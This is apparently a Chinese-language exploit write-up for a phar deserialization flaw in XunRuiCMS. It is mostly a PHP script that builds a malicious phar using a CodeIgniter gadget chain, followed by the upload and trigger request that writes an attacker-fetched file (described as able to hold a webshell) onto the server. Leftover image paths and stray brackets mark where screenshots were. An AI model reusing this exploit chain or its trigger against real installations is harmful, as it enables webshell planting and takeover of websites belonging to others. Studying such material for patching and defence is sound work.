

tips:如果是本地小皮搭建，需要使用apache为中间件，且php.ini的phar.readonly需要为Off

```
[Phar]
; http://php.net/phar.readonly
phar.readonly = Off

```


前提条件是需要登录后台，

首先自己本地使用下方代码生成``phar.phar``

```
<?php

namespace {

    ini_set('display_errors', 1);

    ini_set('display_startup_errors', 1);

    error_reporting(E_ALL);

}

namespace CodeIgniter\Cache\Handlers {

    use CodeIgniter\Session\Handlers\MemcachedHandler;


    class RedisHandler {

        protected $redis;

        public function __construct() {

            // 实例化不同命名空间中的 RedisHandler 类

            $this->redis = new MemcachedHandler();

        }

    }

}

namespace CodeIgniter\Session\Handlers{

    use CodeIgniter\HTTP\CURLRequest;

    class MemcachedHandler {

        public $memcached;

        public $lockKey;

        public function __construct()

        {

            $this->lockKey='http://127.0.0.1/88.php'; //远程服务器所需要准备的文件

            $this->memcached = new CURLRequest();

        }

    }

}

namespace CodeIgniter\HTTP{

    class CURLRequest
    {
        protected $config = [];
        public function __construct()
        {

           $this->config = [

            // 'timeout'         => 1.0,

            // 'connect_timeout' => 150,

            'debug'           => "../../../WWW/XunRuiCMS-Study/666.php", //所生成马的文件，建议绝对路径，这样会生成在php.exe的目录

            'verify'          => true,

        ];
        }
    }

}

// 全局命名空间

namespace {

    use CodeIgniter\Cache\Handlers\RedisHandler;

    $phar = new Phar("phar.phar");

    $phar->startBuffering();

    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

    $o = new RedisHandler();

    $o -> data='hu3sky';

    $phar->setMetadata($o); //将自定义的meta-data存入manifest

    $phar->addFromString("test.txt", "test");

    //签名自动计算

    $phar->stopBuffering();

  
  

//    $o = new RedisHandler();

//    print_r(urlencode(serialize($o)));

}
```

``88.php``代码为(可放马)
```
<?php

header("Content-Type: application/json <?php phpinfo();?>");
```

然后找到文章的附件上传处
]

上传``phar.phar``改后缀为``.zip``
可以在这边查看路径，文件名称
]

然后在另开一个页面
```
http://xunruicms-study:8009/admin.php?c=api&m=test_avatar_domain

image[avatar_path]=phar://./uploadfile/202408/37738d115ba9223.zip
```

]
即可在指定目录生成文件


